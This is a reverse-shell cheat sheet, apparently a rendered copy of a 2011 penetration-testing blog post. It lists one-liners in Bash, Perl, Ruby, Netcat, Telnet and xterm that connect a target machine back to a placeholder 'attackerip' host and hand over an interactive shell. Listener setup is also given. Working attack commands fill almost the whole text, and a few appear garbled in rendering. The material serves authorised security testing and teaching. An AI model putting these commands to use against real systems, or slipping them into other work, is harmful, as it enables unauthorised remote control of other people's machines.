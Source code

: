 From [Bernardo Dag](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) / https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html

# Reverse shells one-liners
Inspired by the great blog post by pentestmonkey.net, I put together the following extra methods and alternatives for some methods explained in the cheat sheet. There is nothing cutting edge, however you may find this handy during your penetration tests.

Citing pentestmonkey's blog post:
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
[...] **your next step is likely to be either throwing back a reverse shell** or binding a shell to a TCP port.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.


💡💡💡  First of all, on your machine, set up a listener, where **`attackerip`** is your IP address and **`4444`** is an arbitrary TCP port unfiltered by the target's firewall:
```bash
attacker$ nc -l -v attackerip 4444
```

## Bash
Alternatives for **Bash** shell:
```bash
exec /bin/bash 0&0 2>&0
```
Or:
```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```
Or:
```bash
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```
See also [Reverse Shell With Bash](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) / http://www.gnucitizen.org/blog/reverse-shell-with-bash/ from GNUCITIZEN blog.

## Perl

Shorter **Perl** reverse shell that does not depend on `/bin/sh`:
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
*If the target system is running Windows use the following one-liner:*
```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Ruby
Longer **Ruby** reverse shell that does not depend on `/bin/sh`:
```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
If the target system is running Windows use the following one-liner:
```bash
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Netcat

Others possible **Netcat** reverse shells, depending on the Netcat version and compilation flags:
```bash
nc -c /bin/sh attackerip 4444
```
Or:
```bash
/bin/sh | nc attackerip 4444
```
Or:
```bash
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```
See also [7 Linux Shells Using Built-in Tools](http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/) / http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/ from LaNMaSteR53 blog.

## Telnet

Of course, you can also use **Telnet** as an alternative for Netcat:
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```
Or:
```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   #⚠️ Remember to listen on your machine also on port 4445/tcp
```

## xterm
Follows further details on **xterm** reverse shell:

To catch incoming xterm, start an open X Server on your system (:1 - which listens on TCP port 6001). One way to do this is with [Xnest](http://www.xfree86.org/4.4.0/Xnest.1.html) / http://www.xfree86.org/4.4.0/Xnest.1.html:
```bash
Xnest :1
```
⚠️ Then remember to authorise on your system the target IP to connect to you:
```bash
xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
xhost +targetip             # Run this INSIDE the spawned xterm on the open X Server
```
Then on the target, assuming that `xterm` is installed, connect back to the open X Server on your system:
```bash
xterm -display attackerip:1
```
Or:
```bash
$ DISPLAY=attackerip:0 xterm
```
It will try to connect back to you, `attackerip`, on TCP port `6001`.

Note that on Solaris xterm path is usually not within the `PATH` environment variable, you need to specify its filepath:
```bash
/usr/openwin/bin/xterm -display attackerip:1
```
